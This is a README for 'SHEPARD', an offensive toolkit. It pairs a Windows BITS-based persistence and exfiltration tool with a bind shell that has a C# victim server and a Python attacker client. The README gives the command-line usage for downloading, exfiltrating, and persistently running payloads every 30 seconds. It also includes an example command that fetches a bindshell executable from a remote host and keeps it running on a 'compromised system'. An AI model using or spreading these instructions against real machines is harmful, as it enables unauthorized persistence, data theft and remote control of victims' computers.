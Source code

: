 # SHEPARD 

## BITS

This is a persistance tool using Windows Background Intelligent Transfer Service (BITS). 

### Functionality

File Download, File Exfiltration, File Download + Persistent Execution

### Usage 

Run shepard.exe as Administrator with the following command line arguments:
  
  `-d <remoteLocation> <writePath>` : regular file download to a local path of your choice
  
  `-e <remoteLocation> <localPath>` : regular file upload from a local path of your choice (only sends to IIS server, this is a limitation with BITS)
  
  `-dr <remoteLocation> <writePath> [optionalFileArgs]` :  file download to a path of your choice, and will attempt to maintain persitance. The downloaded file will attempt to run with optionalFileArgs and BITS will check back every 30 seconds to make sure the file is still running on the compromised system.
  
Running this executable with no arguments or an incorrect amount of arguments will cause shepard to exit cleanly.

## BINDSHELL

The server (victim) is written using C#. It listens on port 6006.

### Victim Usage 

Run shepardsbind_serv.exe with no arguments.

The client (attacker) is written using Python and takes one argument: the IP address of the victim's machine. 

### Server Usage

`shepardsbind_recv.py <victim's IP>`

Running shepardsbind_recv.py with no arguments will return an error.

## Using them in conjunction

The only executable that must be on the victim's machine is shepard.exe. Host the download bindshell executable to a publicly accessible place. 
Shepard will download and run the bindshell executable, and the user can now use the python reciever. If the shell is found and killed, it will restart after 30 seconds.

Example: `shepard.exe -dr http://location.com/shepardsbind_serv.exe C:\Users\Administrator\file.exe`
